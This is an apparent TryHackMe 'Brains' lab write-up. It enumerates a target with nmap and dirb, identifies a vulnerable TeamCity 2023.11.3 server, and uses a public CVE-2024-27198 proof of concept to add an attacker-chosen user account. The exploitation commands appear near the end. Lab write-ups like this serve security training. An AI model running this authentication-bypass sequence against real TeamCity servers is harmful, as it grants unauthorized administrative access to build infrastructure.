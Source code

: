 
https://tryhackme.com/r/room/brains

Scan all TCP hosts
```
nmap -p-  10.10.142.253 

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
39383/tcp open  unknown
50000/tcp open  ibm-db2
```

Finger specific ports
```
nmap -p 22,80,39383,50000 -sV -sC 10.10.142.253

22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 082f246011aa613e5b71c85c379bf56d (RSA)
|   256 e950836d5cc222944c8ac93a32effda9 (ECDSA)
|_  256 6a2ce18a44f2fd18533103878d32b234 (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Maintenance
39383/tcp open  java-rmi Java RMI
50000/tcp open  ibm-db2?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 401 
|     TeamCity-Node-Id: MAIN_SERVER
|     WWW-Authenticate: Basic realm="TeamCity"
|     WWW-Authenticate: Bearer realm="TeamCity"
|     Cache-Control: no-store
|     Content-Type: text/plain;charset=UTF-8
|     Date: Sat, 05 Oct 2024 00:36:09 GMT
|     Connection: close
|     Authentication required
|     login manually go to "/login.html" page
|   drda, ibm-db2, ibm-db2-das: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sat, 05 Oct 2024 00:36:09 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Enumerate website directory with extensions file
```
 dirb http://10.10.142.253 /usr/share/wordlists/dirb/big.txt -x extensions_common.txt

```

In the meantime I will see which service is running on port 50000
The service Team City is running on this port
The version running is 2023.11.3 (build 147512)
When you search for exploits on google for this version there are some results

https://github.com/yoryio/CVE-2024-27198

I used yorio's vulnerability posted on github
I cloned the repo
Navigated inside of the folder
Changed the permissions to allow execution by the root user
Then executed the Python script aimed at the vuln web service with new credentials to be added to the database. 
```
git clone https://github.com/yoryio/CVE-2024-27198.git
cd CVE-2024-27198
chmod +x CVE-2024-27198.py 
python3 CVE-2024-27198.py -t http://10.10.183.8:50000 -u newrandomuser -p mypassword 
```

I'm now able to login to the TeamCity Application with the username newrandomuser and the password mypassword.
